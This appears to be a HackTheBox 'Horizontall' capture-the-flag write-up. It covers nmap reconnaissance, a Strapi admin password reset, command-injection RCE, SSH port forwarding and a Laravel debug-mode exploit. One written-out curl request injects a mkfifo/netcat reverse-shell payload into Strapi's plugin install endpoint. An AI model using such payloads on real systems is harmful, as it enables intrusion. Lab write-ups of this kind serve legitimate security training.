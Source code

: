 # HackTheBox-Horizontall

## NMAP

```bash

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                            
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA) 
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP
2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy
4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmI
NBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 (HTTP)

When visit the web server it's going to redirect us to `horizontall.htb` so let's add this in `/etc/hots` file

<img src="https://i.imgur.com/iXmy3g5.png"/>

<img src="https://i.imgur.com/7LGU6SW.png"/>

<img src="https://i.imgur.com/7o2LTmd.png"/>

We can see from the icon on title bar it's from `Vue.js` which is a javascript framework. At the bottom of the web page we can see a contact form

<img src="https://i.imgur.com/W0tF6Eu.png"/>

But on clicking the send button it doesn't do anything

<img src="https://i.imgur.com/7Hplk9W.png"/>

I tried to poke around the website manually but didn't find anything so ran `nikto` scan but it didn't showed anything interesting other than nginx version which we already saw from nmap scan

<img src="https://i.imgur.com/bomD3tS.png"/>

Tried fuzzing for files using `gobuster` and `ffuf` but they failed as the connection was timing out whenever I ran the tool again to look for any subdomains but it failed so I tired to look around in javascript files

<img src="https://i.imgur.com/GjP9CYs.png"/>

This javascript file gave us a subdomain so let's add and see where it takes

<img src="https://i.imgur.com/InsO8xV.png"/>

From wappalyzer results it seems this is scrapi cms  so search for any vulnerabilties I saw synack listed some we can also verify the version for strapi

<img src="https://i.imgur.com/FnikfHc.png"/>

Version is 3.0.0-beta.17.4 so we are on the right track

<img src="https://i.imgur.com/kI6SLdU.png"/>

<img src="https://i.imgur.com/T65s0z8.png"/>

Let's try visting the link 

<img src="https://i.imgur.com/hed1ubL.png"/>

Here it asks us for the admin credentials so let's try `admin:admin` but this failed , going back to vulnerabilites page we can see `Improper Access Control` , there's a flaw in javascript files which doesn't properly handle password resets so we can reset the password of any user in this case "admin".

<imgs src="https://i.imgur.com/xlDlAwc.png"/>

So I found a python script after goolging for password reset  which can reset a user's password by supplying a vaid username , the IP address and the new password which we want to set

<img src="https://i.imgur.com/71d1Cr2.png"/>

<img src="https://i.imgur.com/cMbMs3j.png"/>

<img src="https://i.imgur.com/c0j5SOI.png"/>

And we are in the admin panel

<img src="https://i.imgur.com/My07zmH.png"/>

Now focusing on getting a rce I found another article related to it

<img src="https://i.imgur.com/7XnzWXw.png"/>

```bash
curl -i -s -k -X $'POST' -H $'Host: localhost:1337' -H $'Authorization: Bearer [jwt]' -H $'Content-Type: application/json' -H $'Origin: http://localhost:1337' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f)\",\"port\":\"1337\"}' $'http://localhost:1337/admin/plugins/install'

```

Here we need to use the jwt token which got after password reset so we need to use it there

<img src="https://i.imgur.com/CAusuoe.png"/>

I used `--proxy` as I was getting bad request error because at then end of json `}` was missing so I added that in burp suite and got a shell

<img src="https://i.imgur.com/TITsj8J.png"/>

Stabilize the shell with `python3`

<img src="https://i.imgur.com/pvB5zQ7.png"/>

If we take a look at local ports with `ss -tulpn` (socket status) , we'll see two local ports on which a web page is running

<img src="https://i.imgur.com/aNIvjsk.png"/>

The web page on port 1337 is the one we saw `api-prod` subdomain so , we'll need port forawrd 8000 , we can do this through ssh local port forwarding by including our public key in `authroized_keys` file so we can login with our private key

<img src="https://i.imgur.com/Ou2fo3H.png"/>

<img src="https://i.imgur.com/mLf7cw7.png"/>

<img src="https://i.imgur.com/e3ll4NC.png"/>

Let's try to do port forwarding through ssh

<img src="https://i.imgur.com/mTSCwY4.png"/>

<img src="https://i.imgur.com/2TtbfEq.png"/>

<img src="https://i.imgur.com/9QrmsQS.png"/>

This shows us the laravel version so there must be a CVE for this as well, we can check if the laravel applicaiton is running in debugging mode by visiting `/profiles`

<img src="https://i.imgur.com/vHgLPHT.png"/>

<img src="https://i.imgur.com/AVPwkJO.png"/>

Perfect now by following the way to exploit deubg mode to get remote code execution

<img src="https://i.imgur.com/n0M3k4F.png"/>

Clone these two repositories

<img src="https://i.imgur.com/UYOJ1Wv.png"/>

First we'll going to make a file with `ls` command being executed than run that PHAR file against the python script

<img src="https://i.imgur.com/DysAr8T.png"/>

<img src="https://i.imgur.com/wZofJiK.png"/>

And the rce works so now we can get a reverse shell by including the netcat payload

<img src="https://i.imgur.com/jUwB35J.png"/>

<img src="https://i.imgur.com/ohQBz96.png"/>


## References

- https://thatsn0tmysite.wordpress.com/2019/11/15/x05/
- https://bittherapy.net/post/strapi-framework-remote-code-execution/
- https://github.com/ambionics/laravel-exploits
- https://github.com/ambionics/phpggc.git
- https://www.ambionics.io/blog/laravel-debug-rce
